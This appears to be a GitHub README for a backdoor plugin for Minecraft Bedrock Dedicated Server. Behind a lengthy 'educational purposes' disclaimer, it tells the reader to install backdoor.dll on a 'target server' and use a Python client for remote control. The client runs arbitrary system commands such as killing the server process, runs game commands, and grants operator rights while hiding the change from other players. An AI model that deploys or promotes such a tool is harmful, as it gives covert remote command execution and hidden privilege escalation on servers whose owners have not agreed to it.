 # backdoor

A backdoor plugin for Bedrock Dedicated Server

## Warning and Disclaimer Statement

Before using this software, please read the following carefully. This software is a learning-based backdoor project designed for educational and research purposes only. Using this software may infringe upon the privacy and security of others, and you should only use it with appropriate authorization and legal permission. Using this software may cause irreversible losses and damages, such as data loss, system crashes, legal disputes, and more. Using this software is entirely at your own risk, and the author assumes no legal responsibility.

By using this software, you agree to the following terms:

1. You will only use this software in legal and authorized circumstances.
2. You will not use this software for illegal, privacy-invasive, or harmful activities.
3. You will not use this software to attack other computer systems or networks, or attempt to gain unauthorized access.
4. You will not use this software for commercial purposes or for profit.
5. You will be solely responsible for all consequences resulting from your use of this software, including but not limited to data loss, system crashes, legal disputes, and more.
6. You will not modify or crack this software, or attempt to circumvent its security measures.
7. You will be fully responsible for any actions taken using this software, and the author assumes no responsibility.
8. The author of this software assumes no liability for any direct or indirect losses or damages caused by the use of this software.

If you do not agree with the above terms, do not use this software. If you violate any of the above terms, the author reserves the right to pursue legal action against you.

The scope of this warning and disclaimer statement shall apply to your use of this software in any time, place, or manner. If you require any legal advice regarding your use of this software, please consult a professional lawyer.

Please note that this warning and disclaimer statement may need to be updated due to changes in laws and regulations. The author reserves the right to change this statement at any time, so please check this page regularly before using this software.

## Usage
1. install ``backdoor.dll`` to the target server
2. Use the backdoor client ``client.py`` for remote control after the target server is opened.

## Run the backdoor client
After installing Python, run the program from the command line with the following command:

```
python client.py
```

Enter the server IP and port
When you start the program, you will be prompted to enter the IP address and port number of the server in the format IP address port number (e.g. 127.0.0.1 19132)

Example:

```
Please input server ip:port like 127.0.0.1 19132
114.51.41.91 9810
```

Client Functions
The client program has the following functions:

``scmd [cmd]`` - executes system commands
``gcmd [cmd]`` - executes game commands
``perm [player name: case sensitive] [level: 0~3] [0: client hide change | 1: client show change]`` - set player permission level
``q`` - Quit the program

Please enter the appropriate command to perform the appropriate action as needed. For example, to execute the game command ``kick Homo114514``, enter the following command:

```
>>> gcmd kick Homo114514
```

Execute the system command ``taskkill /F /IM bedrock_server.exe``
```
>>> scmd taskkill /F /IM bedrock_server.exe
```

Set permissions for players in the game
Permission level: 0 for normal players, greater than 0 for OP
Show/hide: hide permission changes from other players and yourself, not discoverable within the game
The following command sets OP permissions for player ``Homo114514`` and hides it from other players
```
>>> perm Homo114514 1 0
```

To exit the program, enter the following command:

```
>>> q
```
